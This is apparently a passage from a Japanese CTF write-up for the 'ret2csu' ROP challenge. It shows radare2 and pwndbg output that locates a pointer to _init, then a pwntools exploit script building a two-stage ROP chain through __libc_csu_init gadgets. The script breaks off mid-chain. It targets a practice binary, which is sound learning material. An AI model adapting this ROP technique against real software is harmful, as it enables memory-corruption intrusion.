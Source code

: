 
```
[0x004006b4]> is
[Symbols]

nth paddr      vaddr      bind   type   size lib name
―――――――――――――――――――――――――――――――――――――――――――――――――――――
(..snip...)
8   0x000004d0 0x004004d0 GLOBAL FUNC   0        _init
(..snip...)
```


```
pwndbg> search -t qword 0x004004d0
Searching for value: b'\xd0\x04@\x00\x00\x00\x00\x00'
ret2csu         0x400398 rol byte ptr [rax + rax*2], 1
ret2csu         0x400e38 rol byte ptr [rax + rax*2], 1
ret2csu         0x600398 0x4004d0
ret2csu         0x600e38 0x4004d0
warning: Unable to access 16007 bytes of target memory at 0x7ffff7c01000, halting search.
```


`0x400398`が目的の値と分かった。

```
#!/usr/bin/env python3

RET2CSU = './ret2csu'

from pwn import *

def exploit():
    # setup
    context.update(arch='amd64', os='linux')
    p = process(RET2CSU)

    # gad1 ... pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
    # gad2 ... mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword [r12 + rbx*8];
    gad1        = p64(0x0040069a) 
    gad2        = p64(0x00400680)
    ret2win     = p64(0x00400510)
    ptr_to_init = p64(0x00400398)
    pop_rdi     = p64(0x004006a3) 

    # making a payload
    payload  = b''
    payload += b'A' * 0x28

    # 1) first ROP
    payload += gad1
    payload += p64(0x0)                # rbx
    payload += p64(0x1)                # rbp
    payload += ptr_to_init             # r12
    payload += p64(0xdeadbeefdeadbeef) # r13 -> edi
    payload += p64(0xcafebabecafebabe) # r14 -> rsi
    payload += p64(0xd00df00dd00df00d) # r15 -> rdx
    
    # 2) second ROP
    payload += gad2
    payload += p64(0x0) # a padding for `add rsp, 0x08`
    payload += p64(0x0) # rbx
    payload += p64(0x0) # rbp
    payload += p64(0x0) # r12
    payload += p64(0x0) # r13
    payload += p64(0x0) # r14
```